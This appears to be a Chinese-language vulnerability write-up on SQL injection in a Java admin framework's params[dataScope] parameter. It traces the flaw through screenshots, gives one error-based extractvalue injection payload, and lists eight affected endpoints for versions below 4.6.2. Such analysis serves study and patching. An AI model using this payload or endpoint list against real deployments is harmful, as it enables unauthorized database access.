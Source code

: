   
可以看到，在查询的时候，user的属性params是map，在xml中，将dataScope拼接到sql语句后  
  
进入mapper层  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicicYZPuCjZmlpx4yZuDfoPjNqj8E87r1VJUBy5ycuTdZDl3OOXAJ6rGQ/640?wx_fmt=png&from=appmsg "")  
  
跳转到上级  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicwKjYR6U8N5qR6gNSlLwCGjjPkdjrXOa6jHicL5Qwo0Lh214zhk9SMtQ/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
进入role查看信息  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicYHfqvjFzXmBTCZtuFdwicXB8iao2HMiaXXJcu8dWiazpukVTfN6f3vIyxg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
查看功能  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoic8ouv3BF8QB5D8VCpB0HrEkMBfzj6W10ria3rsZF5YODialwUfj6IZM1A/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
params  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicH77lGG7hslFdWibILCzZwwuxWeOfMibOIicHztIru3RicbQ5Jmup9JyZOA/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicRzUODQyB8lfEZk1MFNibdYNy2UaibOhxsFfta0lxIuPLsQiaZRicJAhjFA/640?wx_fmt=png&from=appmsg "")  
  
根据路径  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicK5Je0vCCJtsn7c6UCNEHGel19z954VwrsYz3Ificctxkxlm4Qt4A4EA/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
执行代码  

```
&params[dataScope]=and extractvalue(1,concat(0x7e,(select user()),0x7e))

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoic2U3iatpc04WAjWTmRVAeCzvtHmANZl5eD9j1OlhyTG7mSXCrE0Cppnw/640?wx_fmt=png&from=appmsg "")  
### 注入点2 /role/export （<V-4.6.2）  
### 注入点3 /user/list （<V-4.6.2）  
### 注入点4 /user/list （<V-4.6.2）  
### 注入点5 /dept/list （<V-4.6.2）  
### 注入点6 /role/authUser/allocatedList （<V-4.6.2）  
### 注入点7 /role/authUser/unallocatedList  
### 注入点8 /dept/edit （<V-4.6.2）  
